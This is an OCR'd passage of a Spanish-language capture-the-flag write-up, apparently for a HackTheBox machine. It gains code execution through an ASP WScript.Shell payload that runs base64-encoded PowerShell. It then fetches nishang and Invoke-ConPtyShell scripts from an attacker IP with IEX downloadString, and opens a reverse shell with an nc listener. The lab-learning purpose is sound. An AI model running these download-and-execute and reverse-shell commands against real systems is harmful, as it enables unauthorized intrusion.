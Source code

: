Si nos ponemos en escucha por trazas icmp con `tcpdump`, en caso de ver trazas desde windcorp.htb significa que tenemos RCE.
Si queremos ganar acceso lo podemos hacer con `powershell -encodedcommand`:

```shell
echo -n "ping -n 1 10.10.14.7" | iconv -t utf-16le | base64
```

Y ahora:

```asp
<%response.write CreateObject("WScript.Shell").Exec("cmd /c powershell -encodedcommand <BASE64_STRING>").StdOut.Readall()%>
```

Si recibimos el ping, perfecto, ahora es cosa de editar el `PS.ps1` de nishang y pasarle el comando encodeado:

```shell
echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.7/PS.ps1')" | iconv -t utf-16le | base64 -w 0; echo
```

## ConPtyShell

Si tenemos una shell con `rlwrap` podemos hacer CTRL + L y tal pero no CTRL + C, así que usaremos [ConPtyShell](https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1) de Antonio Coco:

- En la víctima

```powershell
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.7/Invoke-ConPtyShell.ps1')
```

- En la máquina atacante

```shell
nc -lvnp 443
```

- Otra vez en la víctima

```powershell
Invoke-ConPtyShell -RemoteIp 10.10.14.7 -RemotePort 443 -Rows 61 -Cols 224
```

- Atacante

```shell
CTRL + Z
stty raw -echo; fg
ENTER
ENTER
whoami
```

## WinRM - SSL
